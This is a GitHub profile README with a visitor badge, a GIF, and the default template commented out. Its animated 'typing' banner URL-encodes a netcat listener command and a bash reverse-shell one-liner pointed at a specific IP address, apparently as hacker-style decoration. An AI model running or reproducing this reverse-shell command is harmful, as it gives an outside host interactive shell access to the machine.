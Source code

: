 ### Hi there 👋
<img src="https://visitor-badge.glitch.me/badge?page_id=kIl3rr" /> 

[![Typing SVG](https://readme-typing-svg.herokuapp.com?size=12&color=FFFFFF&multiline=true&lines=%24+nc+-lnvp+2333;%24+bash+-i+%3E%26+%2Fdev%2Ftcp%2F183.3.226.35%2F2333+0%3E%261)](https://git.io/typing-svg)
<div align=center>
<img src="https://user-images.githubusercontent.com/74661756/161088838-80944d50-ce3c-4b0f-8819-0b9e80c0cf7f.gif"/>
</div>


<!--
<div align="center"> <img height="137px" src="https://github-readme-stats.vercel.app/api?username=kIl3rr&theme=duck" /> </div>

<div align="center"> <img src="https://github-readme-stats.vercel.app/api/top-langs/?username=kIl3rr&theme=duck" /> </div>

**kIl3rr/kIl3rr** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
